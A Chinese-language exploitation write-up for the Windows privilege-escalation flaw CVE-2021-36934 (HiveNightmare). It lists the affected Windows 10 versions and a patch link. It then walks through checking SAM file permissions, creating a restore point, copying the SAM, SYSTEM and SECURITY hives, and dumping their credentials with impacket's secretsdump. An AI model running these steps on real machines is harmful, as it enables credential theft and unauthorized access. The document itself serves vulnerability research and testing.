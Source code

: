 ### CVE-2021-36934

#### 描述

Windows Elevation 漏洞

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 10 | x64/x86/ARM64 | 1809 |  |  |
| Windows 10 | x64/x86/ARM64 | 1909 | |        |
| Windows 10 | x64/x86/ARM64 | 2004 | | &#10004; |
| Windows 10 | x64/x86/ARM64 | 20H2 | | |
| Windows 10 | x64/x86/ARM64 | 21H1 | | |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2021-36934
```

#### 利用方式

编译环境

- VS2019（V140）X64 Release
- VS2019（V140）X86 Release

测试系统Windows 10 2004 X64

使用命令来查看目标系统是否是易受攻击的

```
icacls C:\windows\system32\config\sam
```

当出现如下图所示就表明是易受攻击的机器

![image-20210905164036648](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-36934_Windows_10_2004_X64_1.png)

然后需要开启系统还原，右键“此电脑->属性”，点击“系统保护->配置->启用系统保护->应用->确定”

![image-20210905164831213](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-36934_Windows_10_2004_X64_2.png)

然后创建系统还原点

![image-20210905164912574](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-36934_Windows_10_2004_X64_3.png)

接着使用EXP即可获取到系统的SAM，SYSTEM和SECURITY文件

![1](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2021-36934_Windows_10_2004_X64_4.gif)

最后使用impacket项目进行登录即可

```
git clone https://github.com/SecureAuthCorp/impacket.git 
cd impacket/examples 
python3 secretsdump.py -sam SAM-2021-07-11 -system SYSTEM-2021-07-11  -security SECURITY-2021-07-11 LOCAL
```



#### 代码来源

- [GossiTheDog](https://github.com/GossiTheDog/HiveNightmare)